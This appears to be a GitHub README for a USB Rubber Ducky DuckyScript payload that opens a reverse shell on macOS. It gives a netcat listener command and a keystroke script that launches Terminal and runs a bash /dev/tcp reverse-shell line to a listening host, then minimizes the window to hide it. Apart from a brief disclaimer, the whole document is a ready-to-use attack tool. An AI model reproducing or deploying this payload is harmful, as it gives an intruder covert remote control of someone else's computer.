 # Ducky-Rev-Shell
Duckyscript in a bash file to get a reverse shell on MacOS.

## DISCLAIMER:
This is for security research purposes ONLY. Only use on machines where you have permission or your own.

## About
Version 1.0
<br>Author: samamsa7

## Setting up Listener
Listener set up command for Windows.
Run 
  nc -lvnp 87 -s 173.255.247.6
in Powershell, replacing the IP and port with relevant ones.

## DuckyScript Code
<code><pre>DELAY 50
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
STRING bash
DELAY 50
ENTER
DELAY 50
STRING bash -i >& /dev/tcp/173.255.247.5/87 0>&1
REM Replace IP and port above with listening host
DELAY 50
ENTER
DELAY 50
COMMAND M
DELAY 50
</pre></code>
